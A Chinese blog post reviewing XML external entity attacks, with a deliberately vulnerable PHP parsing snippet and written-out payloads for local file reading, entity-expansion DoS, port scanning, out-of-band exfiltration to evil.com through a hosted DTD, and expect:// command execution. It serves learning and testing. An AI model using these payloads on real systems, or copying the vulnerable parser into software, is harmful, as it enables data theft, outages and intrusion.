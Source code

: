 ```yaml
---
layout: post
title: "XML实体攻击回顾"
tags: [security,web]
---
```



XML实体攻击已经是一个很老的技术了，这里仅对学习的过程做一个记录。

{% highlight php %}
<form method="POST" action="">
	<textarea name="keyword" value="" style="width: 500px; height: 300px"></textarea>
	<input type="submit" value="submit">
</form>

<?php
$keyword = $_POST['keyword'];
$xml_obj = simplexml_load_string($keyword);
var_dump($xml_obj);
{% endhighlight %}

上面这段代码用于XXE实体攻击的练习，你可以将其保存至你的环境下用于测试。（记得删除 :P）

XML讲解可以参考w3schools的教程-[XML](http://www.w3schools.com/xml/)。

这里简单说一下XML中的实体类型，大致有下面几种：

* 字符实体
* 命名实体
* 外部实体
* 参数实体

除参数实体外，其它实体都以字符（&）开始，以字符（;）结束。常规实体有：`&apos;（'）`、`&amp;（&）`、`&quot;（"）`、`&lt;（<）`、`&gt;（>）`。

**字符实体**类似html中的实体编码，形如：`&#97;（十进制）`或者`&#x61;（十六进制）`。

**命名实体**可以说成是变量声明，命名实体只能声明在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。如下面代码所示：

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x "First Param!">
        <!ENTITY y "Second Param!">
    ]>
    <root><x>&x;</x><y>&y;</y></root>

**外部实体**用于加载外部文件的内容。（XXE攻击主要利用此实体）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPe root [
        <!ENTITY outfile SYSTEM "outfile.xml">
    ]>
    <root><outfile>&outfile;</outfile></root>

**参数实体**用于DTD和文档的内部子集中。与一般实体相比它以字符（%）开始，以字符（;）结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。（XXE攻击常结合利用参数实体进行数据回显）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % param1 "Hello">
        <!ENTITY % param2 " ">
        <!ENTITY % param3 "World">
        <!ENTITY dtd SYSTEM "combine.dtd">
        %dtd;
    ]>
    <root><foo>&content</foo></root>
    
combine.dtd中的内容为：

    <!ENTITY content "%param1;%param2;%param3;">
    
上面combine.dtd中定义了一个基本实体，引用了3个参数实体：

    %param1;，%param2;，%param3;。

解析后`<foo>...</foo>`中的内容为`Hello World`。

XML实体攻击主要利用了XML实体中的外部实体结合各种协议来读取服务器上的数据，在DTD文件中的参数实体声明时能够引用其他参数实体的值，因此在XXE攻击回显遇到困难时会用到。

### * 简单文件读取

因为可以进行外部实体加载，在XXE攻击中常用来进行本地文件读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "file://localhost/c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/file_read.jpeg)

在使用`file://`协议时，有以下几种格式：

    * Linux
    file:///etc/passwd
    
    * Windows
    file:///c:/windows/win.ini
    file://localhost/c:/windows/win.ini
    （下面这两种在某些浏览器里是支持的）
    file:///c|windows/win.ini
    file://localhost/c|windows/win.ini
    
除了使用`file://`协议进行文件读取外，如果XML文档是用PHP进行解析的，那么还可以使用`php://filter`协议来进行读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "php://filter/resource=c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
### * DoS攻击

因为解析器会解析文档中的所有实体，因此如果实体声明层层嵌套的话，在一定数量上可以对服务器器造成DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x1 "CPU Consuming Task!">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;&x2;">
        ...
        <!ENTITY x100 "&x99;&x99;&x99;...">
    ]>
    <root><foo>&x100;</foo></root>

嵌套实体声明曾指数增长，可能造成对服务器的DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY dos SYSTEM "/dev/zero">
    ]>
    <root></root>
    
加载一个不稳定的文件描述也可能产生DoS。

### * 端口扫描

加载外部DTD时有两种加载方式，一种为私有`private`，第二种为公告`public`。

私有类型DTD加载：

    <!ENTITY private_dtd SYSTEM "DTD_location">
    
公共类型DTD加载：

    <!ENTITY public_dtd PUBLIC "DTD_name" "DTD_location">
    
在公共类型DTD加载的时候，首先会使用`DTD_name`来检索，如果无法找到，则通过`DTD_location`来寻找此公共DTD。利用`DTD_location`，在一定的环境下可以用来做内网探测。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY portscan SYSTEM "http://localhost:3389">
    ]>
    <root><foo>&portscan;</foo></root>
    
因解析器种类不同，所以针对XXE攻击进行端口扫描需要一个合适的环境才能够实现，例如：有明显的连接错误信息。

### * 利用DTD进行数据回显

当利用XXE攻击进行文件读取时经常因为没有回显而显得鸡肋，这个时候就可以结合参数实体的特殊性，加载一个外部DTD来进行回显。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/windows/win.ini">
        <!ENTITY % dtd SYSTEM "http://192.168.1.100:8000/evil.dtd">
        %dtd;
        %send;
    ]>
    <root></root>
    
其中`evil.dtd`的内容如下：

    <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?content=%file;'>">
    %payload;
    
在DTD文件中声明了参数实体`payload`，其值是一个实体参数声明，因为是在DTD里面，所以可以引用上文的`%file;`参数实体，`%file;`参数实体为`c:/windows/win.ini`文本的内容。最后在原XML里引用DTD中的参数实体，此时就可以讲本地文件读取的内容通过HTTP发送出去（为了让请求的URL有效，这里对使用了`php://filter`协议，并将内容使用base64进行了编码）。

![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/redirect_file.jpeg)

此方法针对数据不回显的情况及其有用。

### * 远程命令执行

当然了，除了文件读取和DoS外，某些情况下还能进行RCE。例如在PHP开启了PECL上的Expect扩展时，就能使用`expect://`协议来执行命令。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "expect://dir .">
    ]>
    <root><foo>&content;</foo></root>
    
利用XXE攻击时需要结合实际环境才能发挥出其威力。:D

### 参数

* [http://www.ibm.com/developerworks/cn/xml/x-entities/](http://www.ibm.com/developerworks/cn/xml/x-entities/)
* [https://www.youtube.com/watch?v=eHSNT8vWLfc](https://www.youtube.com/watch?v=eHSNT8vWLfc)
* [http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx](http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx)
* [http://en.wikipedia.org/wiki/File_URI_scheme](http://en.wikipedia.org/wiki/File_URI_scheme)

